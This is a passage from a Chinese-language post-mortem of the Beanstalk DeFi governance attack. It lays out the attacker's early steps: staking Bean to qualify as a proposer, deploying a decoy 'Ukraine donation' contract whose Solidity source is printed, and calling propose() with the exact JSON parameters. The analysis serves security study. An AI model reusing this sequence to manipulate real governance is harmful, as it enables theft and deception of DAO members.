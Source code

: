 1. 用 ETH 购买一定数量的 Bean，将其质押在协议中获得 Stalk，以满足发起提案的要求。

   质押 Bean 换取 Stalk 的比率为10000，攻击者进行质押操作时 totalStalk 为 2008803818404909745，所以攻击者需要换取数量约为 200880381840 的 Bean （价值约20万美元）才能发起提案。

2. 创建 BIP19 提案合约，迷惑其他 Silo 成员，实际该提案合约并没有在攻击流程中涉及调用。

   其中 proposerWallet 地址为 BIP18 提案合约地址。

   合约代码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.13;

// Ukraine Donation Proposal
// Give 250,000 Bean to Ukraine (and 10,000 Bean to the proposer)

abstract contract IBean {
    function mint(address account, uint256 amount) public virtual returns (bool);
}

contract InitBip18 {
    address private constant bean = 0xDC59ac4FeFa32293A95889Dc396682858d52e5Db; // Bean Address
    address private constant proposerWallet = 0xE5eCF73603D98A0128F05ed30506ac7A663dBb69; // Proposer Wallet
    address private constant ukraineWallet = 0x165CD37b4C644C2921454429E7F9358d18A45e14; // Ukraine Wallet
    uint256 private constant proposerAmount = 10_000 * 1e6; // 10,000 Beans
    uint256 private constant donationAmount = 250_000 * 1e6; // 250,000 Beans

    function init() external {
        IBean(bean).mint(proposerWallet, proposerAmount);
        IBean(bean).mint(ukraineWallet, donationAmount);
    }
}
```

3. 调用Beanstalk项目中GovernanceFacet.propose()函数，发起BIP18提案，\_init 地址为 BIP18 提案合约地址（注意此时 BIP18 还没有被创建），初始化函数参数为 init() 函数签名。调用参数如下：

```json
{
  "_diamondCut": [],
  "_init": "0xe5ecf73603d98a0128f05ed30506ac7a663dbb69",
  "_calldata": "0xe1c7392a",
  "_pauseOrUnpause": 3
}
```



4. 发起 BIP19 提案，\_init 地址为 BIP19 提案合约地址，调用参数同样为 init() 函数签名，这一步的目的同样是为了迷惑其他 DAO 成员。调用参数如下：

```json
{
  "_diamondCut": [],
  "_init": "0x259a2795624b8a17bc7eb312a94504ad0f615d1e",
  "_calldata": "0xe1c7392a",
  "_pauseOrUnpause": 3
}
```
